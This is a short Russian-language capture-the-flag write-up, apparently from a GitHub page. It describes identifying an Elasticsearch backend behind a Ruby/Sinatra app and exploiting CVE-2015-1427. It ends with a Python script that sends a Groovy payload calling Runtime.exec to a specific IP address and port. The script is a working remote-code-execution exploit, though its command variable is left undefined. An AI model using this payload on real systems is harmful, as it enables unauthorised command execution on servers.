 1. Обратили внимание на ссылки вида href="/show?id=q=_id:4" и подсказку в описании задачи о быстром поиске, про эластик мы поняли сииильно позже.
2. Чекалку ip натравили на свой сервак, получили инфу что прилажка на руби и реально ходит туда куда сказали
3. Дернулли постом /show?id=q=_id:5 получили 400 - поняли что там сенатра 
4. Погуглили rce увидили только две на path traversal и на xss через 400-ку. Потеряли много времени в попытке их реализовать.
5. Дошло наконец-то про эластик, полгуглили на тему elastic rce, нашли https://github.com/t0kx/exploit-CVE-2015-1427/blob/master/exploit.sh
6. Написали простенький скрипт по засы:
```python 
import sys
import requests, json
request = lambda pl: requests.get("http://89.163.129.121:5000/check/_search", params={"source": json.dumps(pl)}).text

data = {"size":1,"script_fields": {"infophp": {"script":'''java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()''' % cmd}}}
request(data)
```

 
